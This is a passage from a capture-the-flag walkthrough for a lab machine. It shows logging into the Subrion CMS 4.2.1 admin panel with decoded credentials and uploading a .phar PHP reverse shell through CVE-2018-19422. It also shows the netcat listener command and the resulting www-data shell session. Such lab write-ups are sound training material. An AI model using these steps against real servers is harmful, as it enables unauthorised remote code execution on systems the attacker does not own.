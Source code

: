 Subrion (it's a CMS) is not working... But there is a way to access it. 

## Exploiting Subrion 4.2.1

By searching on google, you can find that subrion has a panel at `/panel`. If we try to go manually to this panel by typing `http://[TARGET_IP]/subrion/panel/`, we have access to the 
login page of the CMS :  
![](https://i.imgur.com/hF3BTsJ.jpg)  

Now, we need credentials. We found the username and the password but it is encoded. Let's try to decode it using [CyberChef](https://gchq.github.io/CyberChef/) :  
![](https://i.imgur.com/7LSXVES.jpg)  

We can click on the magic stick to let CyberChef decode it automatically :  
![](https://i.imgur.com/BXGL1rC.jpg)  

Now, we can try to login using the username `admin` and the password we decoded :  
![](https://i.imgur.com/DlCId7f.jpg)  

And we are logged in ! Now, we have to get a shell. The installed version of Subrion is 4.2.1. This version is vulnerable to [CVE-2018-19422](https://nvd.nist.gov/vuln/detail/CVE-2018-19422). 
We can upload a `.phar` file containing a php reverse shell (I use [this](https://github.com/pentestmonkey/php-reverse-shell) one from pentest monkey). So let's do this. We can go to `Content -> Uploads`:  
![](https://i.imgur.com/ZlQaKvN.jpg)  

Then we can click the `Upload files` button (the one that has a floppy disk icon) to upload a php reverse shell with the `.phar` extension :  
![](https://i.imgur.com/peKPnvB.jpg)  

Now, we can start a netcat listener on our machine :  
```
attacker@AttackBox:~/Tech_Supp0rt$ nc -lnvp 4242
listening on [any] 4242 ...
```

And then navigate to `http://[TARGET_IP]/subrion/uploads/[php_file_name]` so for me it's `http://10.10.158.200/subrion/uploads/php-reverse-shell.phar`. After this, we can go back to our netcat 
listener :  
```
attacker@AttackBox:~/Tech_Supp0rt$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.158.200] 58216
Linux TechSupport 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:42:23 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```
